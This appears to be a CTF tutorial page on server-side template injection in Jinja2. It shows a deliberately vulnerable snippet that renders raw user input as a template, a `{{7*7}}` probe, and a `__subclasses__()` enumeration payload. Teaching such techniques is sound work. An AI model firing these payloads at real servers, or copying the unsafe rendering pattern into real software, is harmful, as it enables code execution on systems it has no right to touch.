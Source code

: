 ```yaml
---
title: "Server-Side Template Injection (SSTI)"
description: "Exploit template engines to inject expressions or execute arbitrary code on vulnerable web servers."
date: 2025-10-06
draft: false
categories: ["Web"]
tags: ["ssti", "template injection", "jinja2", "web exploitation", "ctf"]
authors: ["CTF.Support Team"]
summary: "Learn to exploit server-side template engines such as Jinja2 or Twig to execute code and extract flags in web CTFs."
aliases: ["/web/ssti/"]
slug: "ssti"
toc: true
---
```


## Introduction

Server-Side Template Injection (SSTI) occurs when user input is embedded in a template without proper sanitization.
Template engines like **Jinja2** (Python), **Twig** (PHP), or **Velocity** (Java) can then interpret malicious expressions as code.

## Example (Python / Jinja2)

```python
from jinja2 import Template

def render_template(template, **context):
    t = Template(template)
    return t.render(**context)

template = input('Enter a template: ')
context = {'user': 'Alice'}
print(render_template(template, **context))
```

Malicious input:

```python
{{7*7}}
```

Server evaluates and returns:

```text
49
```

## Tips

- Test placeholders: `{{7*7}}` for arithmetic confirmation.
- Find filters or functions: `{{config.__class__.__mro__[1].__subclasses__()}}`.
